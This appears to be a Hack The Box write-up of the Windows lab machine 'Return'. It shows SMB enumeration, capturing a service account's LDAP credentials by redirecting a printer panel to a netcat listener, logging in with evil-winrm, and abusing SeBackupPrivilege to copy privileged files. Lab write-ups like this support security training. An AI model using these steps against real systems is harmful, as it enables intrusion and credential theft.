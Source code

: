 ```yaml
---
title: "Return"
date: 09-03-2025
categories: [Windows, Windows Easy]
tags: [Easy, AD, SeBackUpPriv]
image: https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png
---
```


Return is an easy Windows machine. It has a lot of ports open which might be overwhelming at first but if you enumerate carefully you can quickly discard ports until you only have one clear route to get the foothold. After getting credentials for the **svc-printer** user we can use the **SeBackupPrivilege** this user has to read any file in the system without administrator level permissions. 

![return_info_card](/assets/images/return/Return.png)

## Footprinting

Running an nmap scan on the target shows that this is an active directory machine and it is the domain controller machine. I assume this because I see that port 88 is open which is used by the KDC to grant TGT's. As usual with Windows machines we have SMB left open and we can try signing in with null credentials. It is also worth noting that the server has a webpage in port 80 which we will investigate later on. The other two interesting ports are 389 and 47001 which are LDAP and WinRM respectively.  
![return](/assets/images/return/Pasted image 20250309192028.png)

#### SMB

I always try to enumerate as much as I can with SMB since it can be a quick win and we can get interesting files. Since we do not have credentials we can try logging in with a null session. 

```
smbclient -N -L 10.10.11.108
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We see that it allows us to login but it does not list any shares. I tried again with the default guest account some Windows machines have enabled with the credentials `Guest:` but the account was disabled. I also tried to use `rpcclient` to try to enumerate the system further but this time the null session did not let me in. At this point I could not proceed with SMB and I focus my attention somewhere else. I tend to leave potentials SMB exploits after I have enumerated everything and discarded other potential entry points.

#### Webpage

The page is a printer admin panel, the only page that has useful information is the settings page. I see that it has some data already filled in. It would have been pretty easy if the password was already filled in but the `*****` is just a placeholder. From this already filled out form we get a username `svc-printer` the form seems to be making a request to `printer.return.local` which is a subdomain of the host. 
![return](/assets/images/return/Pasted image 20250302193758.png)

Using `burpsuite` I intercept the request to examine its contents. I was expecting to see a password change request but it is a simple POST request to `settings.php` with the following field:  `ip=printer.return.local`. The first thing I did was set up a listener on my box to see if I get any sort of connection back from the server. `nc -lvnp 389` I click update and we get a connection with the following data.

```
listening on [any] 389 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 58395
0*`%return\svc-printer�
                       1edFg43012!!

```

#### Enumerating Users and Groups

We clearly see the credentials that were hidden on the webpage. We can try enumerating the system now with `netexec` and the credentials `svc-printer:1edFg43012!!`. Using the `--users` flag we can enumerate the users in the box.

```
netexec  smb 10.10.11.108 -u svc-printer -p '1edFg43012!!' --users
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.108    445    PRINTER          Administrator                 2021-07-16 15:03:22 0       Built-in account for administering the computer/domain 
SMB         10.10.11.108    445    PRINTER          Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.108    445    PRINTER          krbtgt                        2021-05-20 13:26:54 0       Key Distribution Center Service Account 
SMB         10.10.11.108    445    PRINTER          svc-printer                   2021-05-26 08:15:13 0       Service Account for Printer 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated 4 local users: RETURN
```

We see that there are only four Users three of which are defaults in Active Directory machines. If there were more users I would try enumerating further maybe running bloodhound and enumerating potentially intersting groups or ACLs but since this is an easy machine and we already have the credentaisl for the only user on the box we can now login into the machine using `evil-winrm` with the credentials of the user. 

```
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

## Privilege Escalation

After getting the initial foothold as the `svc-printer` user I try to enumerate what privileges this user has with the command: `whoami /priv` and we get the following list.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

I spot that this user has the `SeBackUpPrivilege` enabled. There is a very easy way to use this privilege to read any file in the system. I used this [exploit](https://github.com/giuliano108/SeBackupPrivilege) and using `evil-winrrm's` upload functionality I transfer the two dll files we need to exploit this privilege. We now have all the tools necessary to perform this exploit, we just need to import both modules. 

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeUtils.dll
```

Using the following command we can now transfer any file to our current directory and read it. In this case I simply copied the root flag but in a real scenario we would have copied the SAM database or any other file that would contain sensitive information from which we would further attack the system.

```
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```